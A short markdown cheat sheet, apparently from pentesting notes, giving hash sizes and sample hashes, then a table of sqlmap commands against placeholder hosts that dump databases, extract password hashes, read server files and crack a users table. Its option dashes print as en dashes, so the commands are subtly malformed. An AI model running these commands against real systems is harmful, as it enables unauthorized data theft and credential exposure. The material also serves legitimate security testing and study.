 ## Cryptography :lock:

### Hash Lengths

| Hash        | Size      |
| ----------- | --------- |
| MD5         | 16 Bytes  |
| SHA-1       | 20 Bytes  |
| SHA-256     | 32 Bytes  |
| SHA-512     | 64 Bytes  |

### Hash Examples

| Hash                  | Example                             |
| --------------------- | ----------------------------------- |
| MD5 Hash Example      | 8743b52063cd84097a65d1633f5c74f5      |
| SHA1 Hash Example     | b89eaac7e61417341b710b727768294d0e6a277b|
| SHA-256               | 127e6fbfe24a750e72930c220a8e138275656b8e5d8f48a98c3c92df2caba935|
| SHA-512               | 82a9dda829eb7f8ffe9fbe49e45d47d2dad9664fbb7adf72492e3c81ebd3e29134d9bc12212bf83c6840f10e8246b9db54a4859b7ccd0123d86e5872c1e5082f|

## SQLMap Examples :bug:

| Command                                                                 | Description                                       |
| ----------------------------------------------------------------------- | -------------------------------------------------- |
| `sqlmap -u http://meh.com –forms –batch –crawl=10 –cookie=jsessionid=54321 –level=5 –risk=3` | Automated sqlmap scan                             |
| `sqlmap -u TARGET -p PARAM –data=POSTDATA –cookie=COOKIE –level=3 –current-user –current-db –passwords –file-read="/var/www/blah.php"` | Targeted sqlmap scan                              |
| `sqlmap -u "http://meh.com/meh.php?id=1" –dbms=mysql –tech=U –random-agent –dump` | Scan URL for union + error-based injection with MySQL backend and use a random user agent + database dump |
| `sqlmap -o -u "http://meh.com/form/" –forms`                             | SQLMap check form for injection                    |
| `sqlmap -o -u "http://meh/vuln-form" –forms -D database-name -T users –dump` | SQLMap dump and crack hashes for table users on database-name |

